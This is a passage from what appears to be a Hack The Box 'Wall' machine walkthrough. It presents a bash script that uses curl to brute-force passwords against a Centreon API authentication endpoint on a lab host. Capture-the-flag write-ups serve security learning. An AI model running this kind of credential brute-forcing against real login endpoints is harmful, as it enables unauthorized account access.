 ![8a521451.png](/assets/images/posts/wall-htb-walkthrough/8a521451.png)
</a>

With that in mind, I wrote a simple brute-forcer of sorts in `bash`, using `curl` as the main driver.

```bash
#!/bin/bash

HOST=10.10.10.157
CENT=centreon
USER=$1
PASS=$2

function die() {
  killall perl &>/dev/null
}

r=$(curl -s \
         -d "username=$USER&password=$PASS" \
   http://$HOST/$CENT/api/index.php?action=authenticate)

if grep -Evi bad <<<"$r" &>/dev/null; then
  echo "[*] Password is: $PASS"
  die
fi
```


[1]: https://www.hackthebox.eu/home/machines/profile/208
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/